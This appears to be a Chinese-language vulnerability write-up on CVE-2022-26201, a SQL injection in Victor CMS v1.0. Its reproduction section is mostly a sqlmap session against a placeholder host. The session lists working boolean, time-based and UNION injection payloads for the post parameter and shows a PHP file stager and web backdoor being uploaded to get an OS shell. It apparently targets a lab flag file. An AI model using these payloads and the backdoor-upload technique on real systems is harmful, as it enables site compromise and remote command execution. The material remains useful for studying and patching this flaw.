


# CVE-2022-26201（Victor CMS v1.0 存在二次注入漏洞）

<div style="text-align: right;">

date: "2023-01-11"

</div>

## 漏洞描述

- Victor CMS v1.0 存在二次注入漏洞

## 漏洞原理

- 暂无

## 漏洞复现


前台存在SQL注入：`http://example.com/post.php?post=1`




```
C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6
λ python3 sqlmap.py -r 1.txt --os-shell
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:43:07 /2023-01-11/

[19:43:07] [INFO] parsing HTTP request from '1.txt'
[19:43:07] [INFO] resuming back-end DBMS 'mysql'
[19:43:07] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: post (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: post=1 AND 7218=7218

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: post=1 AND (SELECT 8683 FROM (SELECT(SLEEP(5)))ljsd)

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: post=1 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716b627871,0x706d756c79534a4267775a62785867616d676d494e6e5841696f44786c57716b51754e504f794644,0x7170627671),NULL,NULL,NULL,NULL,NULL-- -
---
[19:43:08] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[19:43:08] [INFO] going to use a web backdoor for command prompt
[19:43:08] [INFO] fingerprinting the back-end DBMS operating system
[19:43:09] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
do you want sqlmap to further try to provoke the full path disclosure? [Y/n]

[19:43:42] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
[19:43:48] [WARNING] unable to automatically parse any web server path
[19:43:48] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[19:43:50] [WARNING] unable to upload the file stager on '/var/www/'
[19:43:50] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[19:43:52] [WARNING] expect junk characters inside the file as a leftover from UNION query
[19:43:52] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[19:43:54] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[19:43:58] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://example.com:80/tmpuoyny.php
[19:43:59] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://example.com:80/tmpbljls.php
[19:43:59] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> select load_file('/flag')
do you want to retrieve the command standard output? [Y/n/a]

No output
```


